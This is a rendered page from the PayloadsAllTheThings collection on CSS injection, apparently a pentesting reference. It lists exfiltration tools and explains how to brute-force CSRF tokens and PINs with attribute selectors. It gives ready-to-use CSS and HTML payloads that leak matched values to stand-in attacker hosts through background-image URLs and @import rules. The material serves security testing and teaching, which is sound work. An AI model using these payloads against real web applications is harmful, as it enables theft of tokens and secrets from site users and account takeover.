

repository: swisskyrepo/PayloadsAllTheThings · page: CSS Injection/index.html · generator: mkdocs

# CSS Injection

> CSS Injection is a vulnerability that occurs when an application allows untrusted CSS to be injected into a web page. This can be exploited to exfiltrate sensitive data, such as CSRF tokens or other secrets, by manipulating the page layout or triggering network requests based on element attributes.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [CSS Selectors](#css-selectors)
    * [CSS Import at-rule](#css-import-at-rule)
    * [CSS Conditionals](#css-conditionals)
    * [CSS Font-face at-rule](#css-font-face-at-rule)
    * [Attribute Extraction via attr()](#attribute-extraction-via-attr)
    * [Ligatures](#ligatures)
* [Labs](#labs)
* [References](#references)

## Tools

* [hackvertor/blind-css-exfiltration](https://github.com/hackvertor/blind-css-exfiltration) - A tool to exfiltrate unknown web pages using Blind CSS.
* [PortSwigger/css-exfiltration](https://github.com/PortSwigger/css-exfiltration) - Collection of CSS based exfiltration techniques.
* [cgvwzq/css-scrollbar-attack](https://github.com/cgvwzq/css-scrollbar-attack) - PoC for leaking text nodes via CSS injection using scrollbars.
* [d0nutptr/sic](https://github.com/d0nutptr/sic) - Sequential Import Chaining for advanced CSS exfiltration.
* [adrgs/fontleak](https://github.com/adrgs/fontleak) - Tool for fast exfiltration of text using only CSS and Ligatures.

## Methodology

### CSS Selectors

CSS selectors can be used to exfiltrate data. This technique is particularly useful because CSS is often allowed in CSP rules, whereas JavaScript is frequently blocked.

The attack works by brute-forcing a token character by character. Once the first character is identified, the payload is updated to guess the second character, and so on. This often requires an iframe to reload the page with the new payload.

* `input[value^=a]` (prefix attribute selector): Selects elements where the value starts with "a".
* `input[value$=a]` (suffix attribute selector): Selects elements where the value ends with "a".
* `input[value*=a]` (substring attribute selector): Selects elements where the value contains "a".

#### Exfiltration via Background Image

When a selector matches, the browser attempts to load the background image from a URL controlled by the attacker, thereby leaking the character.

```css
input[value^="TOKEN_012"] {
  background-image: url(http://attacker.example.com/?prefix=TOKEN_012);
}
```

```css
input[name="pin"][value="1234"] {
  background: url(https://[ATTACKER.DOMAIN.TLD]/log?pin=1234);
}
```

**Tips:**

* **Hidden Inputs**: You cannot apply a background image directly to a hidden input field. Instead, use a sibling selector (`+` or `~`) to style a visible element that appears after the hidden input.

```css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://[ATTACKER.DOMAIN.TLD]/?q=a)
}
```

* **Has Selector**: The `:has()` pseudo-class allows styling a parent element based on its children.

```css
div:has(input[value="1337"]) {
  background:url(/collectData?value=1337);
}
```

* **Concurrency**: Use both prefix and suffix selectors to speed up the guessing process. You can assign the prefix check to one property (e.g., `background`) and the suffix check to another (e.g., `list-style-image` or `border-image`).

### CSS Import at-rule

This technique is known as **Blind CSS Exfiltration**. It relies on importing external stylesheets to trigger callbacks.

```html
<style>@import url(http://[ATTACKER.DOMAIN.TLD]/staging?len=32);</style>
<style>@import'//[ATTACKER.DOMAIN.TLD]'</style>
```

Frames do not always need to be reloaded to reevaluate CSS. The `@import` rule allows for latency; the browser will process the import and apply the new styles.
